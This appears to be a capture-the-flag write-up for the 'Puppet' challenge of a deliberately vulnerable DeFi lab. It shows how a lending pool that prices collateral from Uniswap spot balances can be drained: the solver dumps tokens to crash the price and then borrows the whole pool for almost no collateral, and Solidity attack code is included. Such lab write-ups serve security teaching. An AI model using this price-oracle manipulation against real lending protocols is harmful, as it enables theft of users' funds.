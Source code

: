 # Notes

In the `borrow` function of `PuppetPool.sol`:

```solidity
function borrow(uint256 amount, address recipient) external payable nonReentrant {
    uint256 depositRequired = calculateDepositRequired(amount);
```

This calculates the required deposit needed to borrow a certain amount (and since our goal is to DRAIN EVERYTHING, that's important).

The calculation is as follows:

```solidity
function calculateDepositRequired(uint256 amount) public view returns (uint256) {
    return amount * _computeOraclePrice() * DEPOSIT_FACTOR / 10 ** 18;
}
```

If this equals ~0 (i.e., borrowing is kinda free), then that’s jackpot.

There’s another calculation involving `_computeOraclePrice()`:

```solidity
function _computeOraclePrice() private view returns (uint256) {
    // calculates the price of the token in wei according to Uniswap pair
    return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
}
```

At first glance, we can’t control much — except maybe `uniswapPair.balance`. Since we hold both ETH and DVT, we might be able to drain enough ETH so the exchange runs out of liquidity.

Useful doc:

[https://hackmd.io/@HaydenAdams/HJ9jLsfTz?type=view#ETH-%E2%87%84-ERC20-Trades](https://hackmd.io/@HaydenAdams/HJ9jLsfTz?type=view#ETH-%E2%87%84-ERC20-Trades)

So theoretically, we can swap our DVT for ETH, and since we have 1000 DVT while the exchange only has 10 ETH and 10 DVT, it seems very feasible.

## Finally

So, by simply executing the following sequence, the pool can be fully drained:

```solidity
// Approve Uniswap to spend the entire token balance
token.approve(address(uniswapV1Exchange), PLAYER_INITIAL_TOKEN_BALANCE);

// Swap all tokens for ETH, drastically lowering the token's price on Uniswap
uniswapV1Exchange.tokenToEthSwapInput(
    PLAYER_INITIAL_TOKEN_BALANCE,
    1e18,
    block.timestamp
);

// Compute the now-reduced ETH collateral required to borrow all pool tokens
uint256 valueToSend = lendingPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE);

// Borrow the entire token balance from the lending pool using minimal collateral
lendingPool.borrow{value: valueToSend}(POOL_INITIAL_TOKEN_BALANCE, recovery);
```

(in the exploit script, deploying a contract was necessary to bypass the constraint that the player's nonce must be 1 — however, the core logic of the attack remains unchanged)